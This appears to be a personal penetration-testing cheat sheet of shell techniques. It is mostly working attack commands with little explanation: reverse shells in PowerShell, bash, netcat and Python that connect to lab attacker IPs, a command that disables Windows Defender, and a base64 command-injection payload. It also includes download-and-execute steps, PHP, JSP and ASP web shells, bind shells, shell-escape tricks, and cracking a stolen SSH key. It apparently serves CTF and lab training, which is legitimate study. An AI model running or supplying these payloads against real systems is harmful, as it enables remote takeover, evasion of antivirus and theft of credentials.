 ```yaml
---
layout: default
---
```


# Shell
## LISTENING SHELL
- `nc -lnvp 9999`

# [Reverse Shell](https://www.revshells.com/)
If we can execute commands on the target, we can try to create MSFVenom payload and execute it inside target

## Windows
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.60',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

### Disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## sh files
```bash
#!\bin/bash 

sh -i >& /dev/tcp/10.10.14.5/9999 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 9999 >/tmp/fs
```

### Execute Reverse Shell File
```bash
# Transfir File to Target
$ curl <MY_IP>:<MY_PORT>/bash.sh -o /tmp/bash.sh
$ wget <MY_IP>:<MY_PORT>/bash.sh 

# Execute Shell
$ ./tmp/bash.sh
$ bash /tmp/bash.sh
```

## Pyton
```py
$ python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## Upload PHP file that works like a page
`https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` 

## Payloads CI
```bash
# Convert reverse shell to base64
$ echo 'sh -i >& /dev/tcp/10.10.14.8/9999 0>&1' | base64

# Send the payload
$ echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOC85OTk5IDA+JjEK"|base64${IFS}-d|bash

# Execute reverse shell
$ bash -c("sh -i >& /dev/tcp/10.10.14.5/4444 0>&1")
$ curl 10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.60/443 0>&1"'`
$ bash -c 'sh -i >%26 /dev/tcp/10.10.14.5/9999 0>%261'`
```

* * *

# Bind Shells
```bash
bash
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Connect Attack
$ nc -nv 10.129.41.200 7777
```

* * *

# [Web Shells](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
`/usr/share/laudanum`

## [PHP](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) 
```bash
<?php SYSTEM($_REQUEST['cmd']); ?>
```

## [ASPX Antak Webshell](https://github.com/samratashok/nishang/tree/master/Antak-WebShell)
`/usr/share/nishang/Antak-WebShell`

> Antak is a web shell built-in ASP.Net. Antak utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server.

## JSP
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## ASP
```
<% eval request("cmd") %>
```

## [War](https://github.com/BustedSec/webshell/blob/master/webshell.war)
> java/war (Tomcat, Axis2, or WebLogic)

```bash
$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
$ zip -r backup.war cmd.jsp 
```

## Upgrade Shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
"CTRL+Z"
stty raw -echo; fg
export TERM=xterm
```

## Interactive Shells
```bash
# /bin/sh -i
/bin/sh -i

# Perl
perl —e 'exec "/bin/sh";'

## The command should be run from a script.
perl: exec "/bin/sh";


# Ruby
## The command should be run from a script.
ruby: exec "/bin/sh"


# Lua
## The command should be run from a script.
lua: os.execute('/bin/sh')


# AWK
awk 'BEGIN {system("/bin/sh")}'


# Find
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;


# Using Exec To Launch A Shell
find . -exec /bin/sh \; -quit

# VIM
vim -c ':!/bin/sh'


# Vim Escape
vim
:set shell=/bin/sh
:shell
```

## Generate SSH Key
### Victim
```bash
$ ssh-keygen
$ cd ./ssh
$ cat id_rsa.pub > authorized_keys
$ chmod 700 ~/
$ chmod 700 ~/.ssh
$ chmod 600 ~/.ssh/authorized_key
```

### Host
```bash
$ nano id_rsa
(Copy from id_rsa victim)
$ chmod 400 id_rsa
$ ssh -i id_rsa matt@10.10.11.136
```

### PassPhrase 
```bash
$ python3 /usr/share/john/ssh2john.py id_rsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
$ john --show hash.txt
```

